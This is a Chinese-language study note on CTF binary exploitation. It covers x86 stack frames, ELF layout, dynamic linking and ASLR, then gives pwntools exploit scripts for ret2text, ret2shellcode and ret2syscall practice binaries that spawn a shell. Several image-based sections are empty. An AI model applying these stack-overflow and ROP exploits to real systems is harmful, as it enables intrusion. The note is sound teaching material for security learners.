




# CTF-pwn学习

## Linux

### x86

#### 栈

**C语言函数调用栈**

以java的堆栈原理为例


**寄存器**

用于存放程序执行中用到的数据和指令，因此函数调用栈的实现与处理器寄存器组密切相关。

以Intel 32位处理器为例


**寄存器使用约定**

- 寄存器**%eax**、**%edx**和**%ecx**为主调函数保存寄存器(caller-saved registers)，当函数调用时，若主调函数希望保持这些寄存器的值，则必须在调用前显式地将其保存在栈中；被调函数可以覆盖这些寄存器，而不会破坏主调函数所需的数据。
- 寄存器**%ebx**、**%esi**和**%edi**为被调函数保存寄存器(callee-saved registers)，即被调函数在覆盖这些寄存器的值时，必须先将寄存器原值压入栈中保存起来，并在函数返回前从栈中恢复其原值，因为主调函数可能也在使用这些寄存器。
- 此外，被调函数必须保持寄存器**%ebp**和**%esp**，并在函数返回后将其恢复到调用前的值，亦即必须恢复主调函数的栈帧。

**栈帧结构**

函数调用经常是嵌套的，在同一时刻，堆栈中会有多个函数的信息。每个未完成运行的函数占用一个独立的连续区域，称作栈帧(Stack Frame)。

栈帧是堆栈的逻辑片段，当调用函数时逻辑栈帧被压入堆栈, 当函数返回时逻辑栈帧被从堆栈中弹出。栈帧存放着函数参数，局部变量及恢复前一栈帧所需要的数据等。

栈帧的边界由**栈帧基地址指针EBP**和**堆栈指针ESP**界定(指针存放在相应寄存器中)。**EBP**指向当前栈帧底部(高地址)，在当前栈帧内位置固定；**ESP**指向当前栈帧顶部(低地址)，当程序执行时ESP会随着数据的入栈和出栈而移动。因此函数中对大部分数据的访问都基于EBP进行。

> 为更具描述性，以下称EBP为帧基指针， ESP为栈顶指针，并在引用汇编代码时分别记为%ebp和%esp。

**函数调用栈典型内存布局**


图中给出主调函数(caller)和被调函数(callee)的栈帧布局，`m(%ebp)`表示以EBP为基地址、偏移量为m字节的内存空间(中的内容)。

该图基于两个假设：第一，函数返回值不是结构体或联合体，否则第一个参数将位于`12(%ebp)`处；第二，每个参数都是4字节大小(栈的粒度为4字节)。

此外，函数可以没有参数和局部变量，故图中“Argument(参数)”和“Local Variable(局部变量)”不是函数栈帧结构的必需部分。

从上图中可以看出，函数调用时入栈顺序为：

`实参N~1 > 主调函数返回地址 > 主调函数帧基指针EBP > 被调函数局部变量1~N`


## 二进制基础


### c语言到可执行文件过程


`C语言 -> gcc -S test.c -> 汇编代码test.s -> gcc test.s -> 二进制文件test.out` 


### ELF文件结构


### ELF在磁盘中和内存中的区别


- 在磁盘中以节（sections）的形式存在，在内存中以段（segment）的形式存在
- `objdump -s elf`可以查看elf在磁盘中的结构，`cat /proc/pid/maps`可以查看进程映射在内存中的结构


### ELF映射到虚拟地址空间


**虚拟地址空间**


- 计算方式`0x3c -> 0x3 0xc -> 0011 1100`

### 进程虚拟空间地址



- 32位Linux系统中，最多寻址4GB的地址，高位1GB为内核地址；32位Windows中，则是2GB内核空间，2GB进程空间；64位系统中，对应关系如上图。


**段与节的内容**


### C语言程序在内存中的数据结构

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int glb;						//未初始化，不占用内存空间，在Bss段
char* str = "Hello world!";

int sum(int x, int y){
	int t = x + y;
	return t;				//t和ptr都是局部变量，在栈Stack内
}

int main(){
	sum(1,2);
	void* ptr =malloc(0x100);			//动态申请的内存，其他段在载入内存的时候已经申请了确定的内存大小，因此在Heap段
	read(0, ptr, 0x100);	//输入deadbeef
	return 0;
}
```


- t和ptr都是局部变量，在栈Stack内
- malloc函数动态申请的内存，其他段在载入内存的时候已经申请了确定的内存大小，因此在Heap段
- glb为未初始化的全局变量，不占用内存空间，在Bss段
- str为已初始化的全局变量，直接放在Data段
- main、sum、"Hello world!"为不可写的代码段，在Text段

### 大端序与小端序


### 寄存器结构


### 静态/动态链接程序的执行过程

**静态**


**动态**


### 栈定义


- 先入后出


### 常用汇编指令

**MOV**


**LEA**


**PUSH**


**POP**


**LEAVE**


**RET**


**两种汇编格式**


## 栈溢出基础

### C语言函数调用栈

- 函数调用栈是指程序运行时内存一段连续的区域，用来保存函数运行时的状态信息，包括函数参数和局部变量等
- 发生函数调用时，**调用函数**(caller)的状态被保存在栈内，**被调用函数**(callee)的状态被压入调用栈的栈顶（称之为栈顶，其实是在下面，参考第四点）
- 函数调用结束时，栈顶的函数(callee)被弹出，栈顶恢复到调用函数(caller)的状态（Return）
- 函数调用栈在内存中从高地址向低地址变化，因此栈顶的内存地址在压栈时变小，退栈时变大


- 为什么栈地址从高到低，堆和其他段则是从低到高？
- stack从高地址向低地址扩展，这样栈空间的起始位置就能确定下来。动态的调整栈空间大小也不需要移动栈内的数据；如果是从低地址到高地址的扩展，结尾的地址是固定的，如果要扩大或缩小，则需要移动整个栈的数据。
- 并且这样设计可以使得堆和栈能够充分利用空闲的地址空间。如果栈向上涨的话，我们就必须得指定栈和堆的一个严格分界线，但这个分界线怎么确定呢？平均分？但是有的程序使用的堆空间比较多，而有的程序使用的栈空间比较多。

> **一个程序因为栈溢出而崩溃的时候，其实它还有大量闲置的堆空间呢，但是我们却无法使用这些闲置的堆空间。所以呢，最好的办法就是让堆和栈一个向上涨，一个向下涨，这样它们就可以最大程度地共用这块剩余的地址空间，达到利用率的最大化**！


### C语言调用栈过程

**代码**

```c
#include <stdio.h>
int sum(int x,int y){
	return x+y;
}

int main(){
    int a;
	a = sum(1,2);
    printf(a);
	return 0;
}
```

- 函数状态主要涉及三个寄存器——ebp，esp，eip
- ebp（栈底指针）用来存储当前函数状态的基地址，在函数运行时不变，可以用来索引确定函数参数或局部变量的位置。
- esp（栈顶指针）用来存储函数调用栈的栈顶地址，在压栈和退栈时发生变化。
- eip用来存储即将执行的程序指令的地址，cpu依照eip的存储内容读取指令并执行，eip随之指向相令邻的下一条指令，如此反复，程序就得以连续执行指令。
- caller为main，callee为sum，进程开始开始先将caller的ebp和esp压入堆栈
- 发生函数调用时：
- 首先将callee的参数按照逆序压入栈内，如果callee不需要参数则没有此步，此时调用了两个参数1和2，因此逆序（2，1）压入堆栈


- 然后将caller进行调用后的下一条汇编指令地址作为返回地址压入栈内（eip），即调用sum函数的下一条printf的地址


- 再将当前ebp寄存器的值（caller的基地址）压入栈内，这一步是保存caller的基地址；并将ebp寄存器的值更新为当前栈顶的地址（esp），正好作为callee的基地址，这一步是将ebp更新为父函数的esp地址


- 再将callee的局部变量等数据压入栈内，esp的值向低地址更新


- callee完成了所有的功能之后会被弹出栈外，esp栈顶指针会重新指向callee的基地址


- 然后将基地址内储存的caller的基地址从栈内弹出，再次存到ebp寄存器内，这一步是恢复caller的基地址；栈顶会指向返回地址（Return Address）


### C语言调用栈过程（汇编）

**代码**

```c
#include <stdio.h>
int Add(int x,int y)
{
	int sum = 0;
	sum = x+y;
	return sum;
}
int main()
{
	int a = 2;
	int b = 3;
	int ret = Add(a,b);
	printf("%d\n",ret);
	return 0;
}
```

- `push ebp` 						首先将caller的caller的ebp值入栈，**保存caller的caller的基地址**


- `mov ebp, esp`                 将此时的esp值传递给ebp寄存器，**将ebp抬到和esp同一地址**


- `sub esp, 4CH`                 给main函数先开辟4Ch的大小内存，此时esp指针向下移动4C空间大小


- `push 0x3/0x2`                 逆序将需要的参数压入堆栈，esp指针同时向下移动


- `call callee`                   将eip移到callee的地址，同时保存下一条汇编指令的地址，等待一会儿eip读取

- `<callee>`                         移动到callee的位置


- `push ebp`                         将caller的ebp值压入堆栈，**保存caller的基地址**
- `mov ebp, esp`                 将caller的esp值传递给ebp寄存器，**将ebp抬到和esp同一地址**


- `进行相关函数操作`
- `pop ebp`                           将esp抬高一个字长，找到此时栈顶地址内的值（也就是父函数的ebp地址），并将ebp指针移动到这个值


- `ret`                                   将esp寄存器抬高一个字节，并且将刚刚储存的地址传给eip寄存器


### 栈溢出原理

- 当函数正在执行内部指令的过程中我们无法拿到程序的控制权，只有在发生函数调用或者结束函数调用时，程序的控制权会在函数状态之间发生跳转，这时才可以通过修改函数状态来实现攻击。而控制程序执行指令最关建的寄存器就是**eip**，所以我们的自标就是让**eip载入攻击指令的地址**。
- 先来看看函数调用结束时，如果要让eip指向攻击指令，首先，在退栈过程（**ret**）中，返回地址会被传给eip，所以我们只需要让溢出数据用攻击指令的地址来覆盖返向地址就可以了。其次，我们可以在溢出数据内包含一段攻击指令，也可以在内存其他位置寻找可用的攻击指令。


### 栈溢出到shellcode

没有已经存在的后门函数，所以我们要先想办法将shellcode写入内存中才能执行


### 栈溢出到system_call



### 返回导向编程ROP

首先来看一下在汇编层面调用shell的过程，这里以x86架构的execve指令为例

```assembly
mov eax, 0xb		  ;execve的系统调用号
mov ebx, ["/bin/sh"]  ;["/bin/sh"]表示存放字符串"/bin/sh"的地址
mov ecx, 0
mov edx, 0
int 0x80
```

 在四个寄存器的值是正确的前提下，执行`int 0x80`就能调用shell，赋值顺序不固定

1. 为eax赋值；
2. 为ebx赋值；
3. 为ecx赋值；
4. 为edx赋值；
5. 执行命令int 0x80

前四项一般通过pop指令完成，因为pop指令是从栈顶取值放入寄存器，而栈是最容易被控制的

但是这些指令在物理内存上并不是连续的，如果在完成了一个步骤之后继续按照原来的顺序执行，就达成不了攻击

如何保证他们按照一定顺序执行下去，目标指令必须形如

```assembly
pop eax/ebx/ecx/edx;	;向任何目标寄存器赋值
ret;					;返回到父函数
```

前四步每一步都要紧跟ret指令，不然就会被打乱，而第五个int则无需紧跟ret指令；接下来详细分析一下过程


假设目标程序中有如下gadget


构造payload，首先从return_address开始溢出，跳转到address1


此时address1处执行pop eax指令，将栈顶的值（正好是0xb）弹出到eax寄存器

随后紧跟ret指令，ret指令等同于`pop eip`指令，相当于将栈顶的值直接弹出到eip寄存器，作为下一条指令执行

我们在这里溢出，跳转到address2，即可将此时栈顶的值（/bin/bash）弹出到ebx寄存器


如此往复，最终执行int 0x80，成功调用shell

**总结：**最终我们构造的payload，就是一系列gadget的地址，在可以栈溢出的位置传入即可


### 动态链接程序和静态链接程序


### 动态链接过程


以调用foo函数为例


首次调用foo函数时


因为是第一次调用，`.got.plt`表中并没有foo函数的真实地址，所以此时`.got.plt`表中记录的地址是`foo@plt+1`


于是马上又跳回`foo@plt`的下一条指令地址，这一步是为了解析foo函数的实际地址


随后回到plt表头部，这一步是向`__dl_runtime_resolve`传参


resolve函数解析foo真实地址之后，经过一系列调用，将foo函数的真实地址填入`.got.plt`表


随后第二次及之后调用


可以直接从`.got.plt`表获取foo函数地址

总结上面的过程如下图


## 保护措施

### ASLR

- 全称Address Space Layout Randomization，地址空间配置随机加载；系统的防护措施，程序装载时生效
- /proc/sys/kernel/randomize_va_space = 0：没有随机化。即关闭 ASLR
- /proc/sys/kernel/randomize_va_space = 1：保留的随机化。共享库、栈、mmap() 以及 VDSO 将被随机化
- /proc/sys/kernel/randomize_va_space = 2：完全的随机化。在randomize_va_space = 1的基础上，通过 brk() 分配的内存空间也将被随机化


## 题目解析

### ret2text

首先使用IDA静态分析


可以看到有叫get_shell和vulnerable的函数，f5生成伪代码



main函数的第六行调用了vulnerable函数，跟进


可以看到第三行开辟了一个16字节的空间储存字符数组，距离ebp的长度为十六进制的10也就是16字节

并且第五行使用gets函数向其中写入数据，gets函数不会校验长度，因此可能造成栈溢出，接下来就需要找到后门函数的位置


回到get_shell函数，可以看到存在system函数并且执行了/bin/sh，结合刚刚提到的vulnerable函数，可以构造栈溢出payload覆盖vulnerable函数退栈时的返回地址到get_shell函数，即可得到shell

回到gdb进行动态调试，在main函数处下断点然后运行，直接跟进到vulnerable函数位置


单步步入到vulnerable函数内部


可以看到调用了gets函数，单步步过之后先正常输入数据，再使用stack命令查看栈内


可以看到输入字符到ebp一共有16个字节，ebp地址再占了4个字节，而再往上一个字长就是退栈时要返回的地址，我们要做的就是用16个字节内容+4个字节覆盖ebp地址+4个字节的后门函数地址来覆写返回地址；记下来我们要做的就是找到后门函数的地址，回到ida


可以看到get_shell函数开始于0x08048522，因此最后4个字节就用这个地址覆盖，返回pwntools编写脚本

```python
from pwn import *
io = process("./ret2text")		#读取本地进程
io.recvline()					#先接收最开始的一行输出（Have you heard of buffer overflow?）

payload = b'A' * 16 + b'B' * 4 + p32(0x08048522)	#构造payload
print(payload)

io.sendline(payload)		   #发送payload
io.interactive()			   #进入交互
```

成功获取shell


### ret2shellcode


思路：本题没有已经存在的后门函数，所以我们要先想办法将shellcode写入内存中才能执行

首先使用checksec检查保护措施


可以看到程序中存在可读可写可执行段（RWX），可以利用这个段写入shellcode；用ida分析


可以看到第三行定义了一个字符变量，然后第八行使用gets函数向s中写入数据，第九行使用strncpy函数将s中的前0x64（100）个字节复制到buf2数组中，观察前后没有发现定义，说明buf2应该存在于全局变量中，跟进


可以看到buf2字符数组长度为100，并且存在于bss段中，地址为0x0804A080，结合刚刚的strncpy函数，可以向其中写入shellcode

接下来使用gdb进行动态调试，运行到gets输入数据后，查看栈


可以看到输入字符串到ret地址距离为0xcc - 0x5c = 0x7c = 112个字节，前100个字节会被strncpy复制到buf2中，我们就利用这100个字节写入shellcode

生成shellcode，使用pwntools中的shellcraft模块生成汇编代码，再使用asm函数汇编生成机器码


计算一下机器码的长度


因此我们构造的payload应该为：44字节机器码 + 112-44个字节垃圾数据 + bss段buf2的地址

可以直接使用python提供的ljust()函数补充垃圾数据，ljust函数左边不变，向右边补充垃圾数据到指定长度

`asm(shellcraft.sh()).ljust(112, b'A')`，112为补充后的长度，b'A'是要补充的数据



到此我们可以构造exp

```python
from pwn import *

io = process("./ret2shellcode")

buf2_addr = 0x0804A080
shellcode = asm(shellcraft.sh())
payload = shellcode.ljust(112, b'A') + p32(buf2_addr)

io.sendline(payload)
io.interactive()
```

### ret2syscall

思路：本题不存在后门函数，同时也不存在ret2shellcode，此时就可以考虑ROP

首先checksec


可以看到开启了NX保护，那么就不能使用ret2shellcode

使用ida分析，跟进到main函数查看伪代码


还是熟悉的gets函数向int区域写入数据，找到了栈溢出的触发点，我们来构造ROP的payload

首先找到`pop eax`的地址，可以直接通过ROPgadget工具进行查找

`ROPgadget --binary ret2syscall --only "pop|ret"`


一条一条的使用grep进行过滤


成功找到三条gadget

0可以直接通过栈直接写入，而字符串/bin/sh需要在地址中寻找


接下来计算溢出所需要的偏移量，使用pwndbg分析


0xdc - 0x6c = 112，因此payload组成如下：

**112字节垃圾数据** + eax返回地址 + eax寄存器的值 + 剩下三个寄存器的返回地址 + 0x0 + 0x0 + ebx寄存器的值 + int 0x80地址

> 注意此时为什么是112字节垃圾数据，因为我们要将ebp之前的栈全部填满，才开始覆盖eax寄存器

接下来就可以返回pwntools编写exp

```python
from pwn import *

eax_ret_addr = 0x080bb196					#eax的返回地址
eax = 0xb									#eax寄存器的值
edx_ecx_ebx_ret_addr = 0x0806eb90			#edx，ecx，ebx的返回地址，注意三个寄存器的顺序，虽然赋值顺序不定但位置要对
edx = 0x0									#edx寄存器的值
ecx = 0x0									#ecx寄存器的值
ebx_addr = 0x080be408						#ebx寄存器的地址值->/bin/sh
int_addr = 0x08049421						#int 0x80指令的地址

payload = b'A' * 112
payload += p32(eax_ret_addr)
payload += p32(eax)
payload += p32(edx_ecx_ebx_ret_addr)
payload += p32(edx) + p32(ecx)
payload += p32(ebx_addr)
payload += p32(int_addr)

io = process("./ret2syscall")
io.sendline(payload)
io.interactive()
```

成功调用shell


